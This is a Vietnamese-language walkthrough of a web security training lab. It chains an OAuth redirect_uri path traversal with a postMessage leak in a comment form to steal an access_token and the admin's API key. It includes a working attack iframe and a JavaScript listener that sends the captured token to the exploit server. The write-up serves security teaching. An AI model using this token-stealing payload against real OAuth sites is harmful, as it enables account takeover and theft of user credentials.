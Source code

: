 >Đăng nhập với tài khoản mạng xã hội cho sẵn, như lab trước, ta phát hiện có thể sử dụng lỗ hổng để path traversel cho tham số `redirect_uri`:
>![image](https://hackmd.io/_uploads/SJN7AxywA.png)

>Tiếp theo, dưới mỗi bài post có chức năng comment: 
>![image](https://hackmd.io/_uploads/Hy2vClyvA.png)

>Xem source thì form để comment được load từ đường dẫn `/post/comment/comment-form`
>![image](https://hackmd.io/_uploads/HkI20x1vA.png)

>Xem request tại `/post/comment/comment-form`:
>![image](https://hackmd.io/_uploads/SJG_yWJPA.png)

>Tại đó, xuất hiện một `postMessage()` đến parent có origin bất kì `*`, tức là trang đang dùng frame của comment form này(mỗi bài post), với data gửi đi là `window.location.href`. Như vậy nếu trang exploit-server frame chứa comment-form này thì nó sẽ nhận được data chứa `window.location.href`. Và nếu `redirect_uri` của Oauth là `/post/comment/comment-form` thì `window.location.href` sẽ chứa `access_token` ta cần tìm!

>Theo đó sẽ có iframe chứa authorization request với `redirect_uri` được sửa thành `/oauth-callback/../post/comment/comment-form`. Và khi nhận được message từ `/post/comment/comment-form`, thực hiện fetch đến exploit-server để có thể xem `access_token` qua log.

>Xây dựng iframe:
```
<iframe src="https://oauth-YOUR-OAUTH-SERVER-ID.oauth-server.net/auth?client_id=YOUR-LAB-CLIENT_ID&redirect_uri=https://YOUR-LAB-ID.web-security-academy.net/oauth-callback/../post/comment/comment-form&response_type=token&nonce=-1552239120&scope=openid%20profile%20email"></iframe>

```

>Xây dựng code JS để fetch data: 
```
<script>
    window.addEventListener('message', function(e) {
        fetch("/" + encodeURIComponent(e.data.data))
    }, false)
</script>
```
![image](https://hackmd.io/_uploads/ryXMb-kwR.png)

>"Deliver exploit to victim" và xem lại log, ta sẽ lấy được `acccess_token`:
>![image](https://hackmd.io/_uploads/B1KAj-yD0.png)

>URL-decode chuỗi nhận được: 
>![image](https://hackmd.io/_uploads/r1Gxh-yw0.png)

>Có được `access_token`, ta sẽ thay vào trong header `Authorization` và gửi đến `GET /me` để lấy user data: 
>![image](https://hackmd.io/_uploads/H15D2-JDC.png)

>Lấy được API key của admin, submit và hoàn thành bài lab: 
>![image](https://hackmd.io/_uploads/Byqt2-JP0.png)

